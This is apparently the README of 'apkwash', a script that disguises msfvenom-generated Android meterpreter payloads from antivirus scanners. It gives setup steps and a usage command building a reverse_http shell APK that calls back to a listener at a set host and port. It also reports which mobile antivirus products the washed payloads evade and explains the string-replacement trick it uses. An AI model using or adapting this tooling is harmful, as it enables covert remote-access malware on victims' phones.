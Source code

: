 # apkwash
Android APK Antivirus evasion for msfvenom generated payloads.
<br><br>
<b> -- Please do not upload "washed" files to VirusTotal.com -- </b><br>
<br>
<br>
<b> Tested on Kali linux rolling. </b><br>
<br>
<br>
<b>Setup:</b><br>
apt-get update && apt-get upgrade<br>
chmod +x apkwash<br>
mv apkwash /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<br>
<b>Usage:</b><br>
apktool -p android/meterpreter/reverse_http LHOST=192.168.1.40 LPORT=1337 -o \<payload>.apk<br>
<br>
<b>Input Options:</b><br>
-p | --payload : (Default: android/meterpreter/reverse_https) This sets the payload to be generated by msfvenom.<br>
-o | --output : (Default: payload.apk) This sets the name of the APK created as well as the output filename.<br>
-x | --original : (MSFVenom -x) Input APK to inject the payload into.<br>
-x | --newkey : For auto-removing debug key to allow the creation of a new key within the script<br>
-v | --verbose : Don't mask output of commands<br>
-h | --help : Help information<br>
<br>
<b>Output:</b><br>
\<payload>.apk & \<payload>.listener<br>
<br>
<b>Antivirus detection:</b><br>
0/35 on nodistribute - 20Mar17<br>
Verified for AVG mobile<br>
Verified for Kaspersky mobile<br>
Verified for Lookout<br>
FLAGGED BY AVAST! -- signature bypass coming soon. Haven't spent any time on this<br>
<br>
<b>Modifiations:</b><br>
Feel free to open the script and make improvements. This script basically utilizes APKTool to open the package, uses sed to replace strings that flag AV, recompiles, then signs.<br>
<br>
<br>
<b>Files:</b><br>
/tmp/payload    (Main files to review: AndroidManifest.xml and the smali files)
<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload directory to see the file structure that was compiled.<br><br><br>
<b>If you are seeing other "Payload".smali files in /tmp/payload/smali/com/var1/var2/ then be sure you have an updated system. I have found an older msfvenom version output a different payload that will be flagged by AVG (1/35 on nodistribute). Just making sure you are completely updated should resolve this.</b>
